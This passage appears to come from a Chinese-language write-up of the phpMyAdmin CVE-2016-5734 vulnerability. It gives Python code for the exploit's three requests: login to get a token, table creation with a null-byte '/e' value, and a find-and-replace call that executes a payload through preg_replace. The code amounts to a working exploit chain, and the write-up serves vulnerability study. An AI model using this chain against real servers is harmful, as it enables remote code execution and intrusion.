 第一次是登录请求，并获取`token`

```python
# get_token
resp = s.post(url_to_pma + "/?lang=en", dict(
     pma_username=uname,
     pma_password=upass
))
```

![image-20230202214907807](/CVE-2016-5734/image-20230202214907807.png)

第二次请求`/import.php`，创建表

```python
sql = '''CREATE TABLE `{0}` (
      `first` varchar(10) CHARACTER SET utf8 NOT NULL
      ) ENGINE=InnoDB DEFAULT CHARSET=latin1;
      INSERT INTO `{0}` (`first`) VALUES (UNHEX('302F6500'));
      '''.format(table)
······
if custom_table is False:
        data = {
            "is_js_confirmed": "0",
            "db": db,
            "token": token,
            "pos": "0",
            "sql_query": sql,
            "sql_delimiter": ";",
            "show_query": "0",
            "fk_checks": "0",
            "SQL": "Go",
            "ajax_request": "true",
            "ajax_page_request": "true",
        }
resp = s.post(url_to_pma + "/import.php", data, cookies=requests.utils.dict_from_cookiejar(s.cookies))
```

![image-20230202215331206](/CVE-2016-5734/image-20230202215331206.png)

第三次是请求`tbl_find_replace.php`，插入数据`"0/e\0"`，并执行payload

```python
exploit = {
        "db": db,
        "table": table,
        "token": token,
        "goto": "sql.php",
        "find": "0/e\0",
        "replaceWith": payload,
        "columnIndex": "0",
        "useRegex": "on",
        "submit": "Go",
        "ajax_request": "true"
}
resp = s.post(url_to_pma + "/tbl_find_replace.php", exploit,cookies=requests.utils.dict_from_cookiejar(s.cookies))
```
